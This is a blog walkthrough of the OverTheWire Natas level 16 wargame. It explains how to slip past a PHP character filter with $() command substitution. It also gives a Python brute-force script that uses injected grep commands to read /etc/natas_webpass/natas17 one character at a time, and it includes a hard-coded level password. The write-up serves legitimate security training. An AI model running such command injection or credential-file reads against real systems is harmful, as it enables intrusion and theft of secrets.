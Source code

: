 ```yaml
---
layout: post
title:  "Natas Level 16"
date:   2015-10-01 10:36
categories: natas wargame web overthewire
author: Nate
---
```

![natas16](/images/natas16.png)

Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form:

{% highlight bash %}
; | & ` \' "
{% endhiglight %}

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( & ) and OR ( | ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

{% highlight bash %}
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
{% endhighlight %}

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
{% highlight bash %}
grep -E ^a.* /etc/natas_webpass/natas17
{% endhighlight %}

Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
{% endhighlight %}

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.

![natas16_execution](/images/natas16_execution.png)

That's it.  The final character string at the bottom was in fact the correct password for Natas 17.
